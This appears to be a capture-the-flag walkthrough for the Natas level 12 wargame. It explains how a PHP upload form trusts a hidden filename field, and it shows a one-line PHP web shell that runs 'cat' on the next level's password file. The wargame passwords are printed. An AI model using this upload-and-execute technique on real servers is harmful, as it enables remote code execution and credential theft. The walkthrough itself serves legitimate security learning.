 <h2>🔰 Level - 12</h2>

- username - natas12
- password - YWqo0pjpcXzSIl5NMAVxg12QxeC1w9QG

	This time, the site gives an option to upload a jpeg file. Link for sourcecode was also given. <br>
	```php
	<?php

	function genRandomString() {
	    $length = 10;
	    $characters = "0123456789abcdefghijklmnopqrstuvwxyz";
	    $string = "";

	    for ($p = 0; $p < $length; $p++) {
	        $string .= $characters[mt_rand(0, strlen($characters)-1)];
	    }

	    return $string;
	}

	function makeRandomPath($dir, $ext) {
	    do {
	    $path = $dir."/".genRandomString().".".$ext;
	    } while(file_exists($path));
	    return $path;
	}

	function makeRandomPathFromFilename($dir, $fn) {
	    $ext = pathinfo($fn, PATHINFO_EXTENSION);
	    return makeRandomPath($dir, $ext);
	}

	if(array_key_exists("filename", $_POST)) {
	    $target_path = makeRandomPathFromFilename("upload", $_POST["filename"]);


	        if(filesize($_FILES['uploadedfile']['tmp_name']) > 1000) {
	        echo "File is too big";
	    } else {
	        if(move_uploaded_file($_FILES['uploadedfile']['tmp_name'], $target_path)) {
	            echo "The file <a href=\"$target_path\">$target_path</a> has been uploaded";
	        } else{
	            echo "There was an error uploading the file, please try again!";
	        }
	    }
	} else {
	?>
	```
	This code stores the input file with a randomly generated string as name, in the upload directory. <br>
	```html 
	<form enctype="multipart/form-data" action="index.php" method="POST">
	<input type="hidden" name="MAX_FILE_SIZE" value="1000" />
	<input type="hidden" name="filename" value="<?php print genRandomString(); ?>.jpg" />
	Choose a JPEG to upload (max 1KB):<br/>
	<input name="uploadedfile" type="file" /><br />
	<input type="submit" value="Upload File" />
	</form>
	<?php } ?>
	```
	Now, within the rest of html code, it passes two more inputs of hidden type. One is a file name.<br>
	In the above php code, the extension in which uploaded file is saved is taken not from the actual uploaded file, but from this hidden input. <br>
	That is, the extension of the file we upload doesn't matter.<br>

	After uploading the file, a link to file was displayed in the form `upload/xxxxxxxxxx.jpg`  <br>
	So, when clicked, this path is added to url and is visited by the browser. <br>

	An interesting idea is that, if a php file, instead of jpg or txt, is opened in a browser, it actually executes the php script within the file. All we need to do is create a sample php script and pass it to the input field.<br>
	(Note: It actually processes the file for what it is. Text or image etc will be displayed based on its data, php will be executed)
	
	So I created a simple php script to cat out the password. <br>

	```php
	<?php
	system("cat /etc/natas_webpass/natas13");
	?>
	```
	I uploaded this file, then changed the extension in the inline php script from jpg to php. When the link to uploaded file was displayed, it was a link the php file I uploaded. Opened the link and got the password. <br>

Password for level 13 - lW3jYRI02ZKDBb8VtQBU1f6eDRo6WEj9